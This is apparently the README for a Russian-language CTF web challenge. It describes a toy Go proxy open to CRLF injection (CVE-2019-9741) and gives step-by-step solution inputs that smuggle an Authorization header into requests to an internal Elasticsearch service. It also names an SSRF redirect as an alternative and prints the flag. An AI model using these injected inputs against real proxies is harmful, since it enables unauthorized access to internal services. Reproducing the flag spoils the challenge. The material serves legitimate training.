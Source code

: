 # Web | easy | Gap

# Информация
Псс, здаров! 

Начал изучать go, решил запилить прокси. Если доступ ограничат, то можно ходить через него. Правда он еще не все умеет...будем считать это alpha версией

## Деплой
1. Поменять флаг на нужный
2. ПРи необходимости изменить порт таска (сервис прокси)
```bash
   cd deploy
   docker-compose up
```

## Выдать участникам
IP:PORT
Файл public/docker-compose.yml

## Описание
Таск основан на уязвимости CRLF в старых версиях go (CVE-2019-9741) (<= 1.11.5). Задача - выполнить запрос к внутренним ресурсам, установив заголовок Authorization

## Решение
1. Заходим на страницу и вводим в поле строки
2. ```
   db:9200?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
   ```
   где (Y3RmY3VwOmN0ZmN1cA = base64(login:pass) = base64(ctfcup:ctfcup))

   таким образом мы понимаем, что там elasticsearch (если по порту это не ясно)
3. db:9200/_aliases?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
4. db:9200/smth_interesting/_search?pretty=true&q=*:* HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
5. Сдаем флаг

## Альтернативное решение
Вместо CRLF, можно было сделать редирект со своего домена до ctfcup:ctfcup@db:9200.

[exploit](solution/exploit.py)

# Флаг
CUP{b061ac18135f641c21f8f429efe4d1a47d7acc37}
